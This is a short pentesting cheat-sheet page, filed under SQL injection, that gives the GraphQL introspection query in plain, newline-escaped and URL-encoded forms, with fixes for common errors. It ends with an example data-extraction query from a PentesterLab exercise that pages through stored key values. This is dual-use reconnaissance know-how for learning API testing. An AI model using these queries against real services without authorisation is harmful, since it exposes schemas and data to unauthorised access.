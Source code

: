 ```yaml
---
title: GraphQL
parent: SQL Injection
layout: default
nav_order: 5
---
```


Use the following code:
```
query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
         ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
        }
        onOperation  #Often needs to be deleted to run query
        onFragment   #Often needs to be deleted to run query
        onField      #Often needs to be deleted to run query
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```

However, at times it will not be in format like this. In that case use the following (basically just paste the above in VS Code and then replacing new line with \n):
```
query IntrospectionQuery {\n    __schema {\n        queryType {\n            name\n        }\n        mutationType {\n            name\n        }\n        subscriptionType {\n            name\n        }\n        types {\n         ...FullType\n        }\n        directives {\n            name\n            description\n            args {\n                ...InputValue\n        }\n        onOperation  #Often needs to be deleted to run query\n        onFragment   #Often needs to be deleted to run query\n        onField      #Often needs to be deleted to run query\n        }\n    }\n}\n\nfragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n        name\n        description\n        args {\n            ...InputValue\n        }\n        type {\n            ...TypeRef\n        }\n        isDeprecated\n        deprecationReason\n    }\n    inputFields {\n        ...InputValue\n    }\n    interfaces {\n        ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n        name\n        description\n        isDeprecated\n        deprecationReason\n    }\n    possibleTypes {\n        ...TypeRef\n    }\n}\n\nfragment InputValue on __InputValue {\n    name\n    description\n    type {\n        ...TypeRef\n    }\n    defaultValue\n}\n\nfragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n        kind\n        name\n        ofType {\n            kind\n            name\n            ofType {\n                kind\n                name\n            }\n        }\n    }\n}
```

or inline version:\
`/?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}`

Remember to remove the onFragment, onOperation and onField if there is error or cannot run. Which is like below:
```
query IntrospectionQuery {\n    __schema {\n        queryType {\n            name\n        }\n        mutationType {\n            name\n        }\n        subscriptionType {\n            name\n        }\n        types {\n         ...FullType\n        }\n        directives {\n            name\n            description\n            args {\n                ...InputValue\n        }\n        }\n    }\n}\n\nfragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n        name\n        description\n        args {\n            ...InputValue\n        }\n        type {\n            ...TypeRef\n        }\n        isDeprecated\n        deprecationReason\n    }\n    inputFields {\n        ...InputValue\n    }\n    interfaces {\n        ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n        name\n        description\n        isDeprecated\n        deprecationReason\n    }\n    possibleTypes {\n        ...TypeRef\n    }\n}\n\nfragment InputValue on __InputValue {\n    name\n    description\n    type {\n        ...TypeRef\n    }\n    defaultValue\n}\n\nfragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n        kind\n        name\n        ofType {\n            kind\n            name\n            ofType {\n                kind\n                name\n            }\n        }\n    }\n}
```

If you still see error like for example "unknown operation name xx", remove the other parts not related to the above query.

From the results you can then query for the data you are interested in based on the original query. For an example this is the one from pentesterlab:\
`{"operationName":"ptlabkeys","variables":{"offset":10},"query":"query ptlabkeys($offset: Int) {\n ptlabkeys(offset: $offset, limit: 10) {\n id\n value\n __typename\n }\n}\n"}`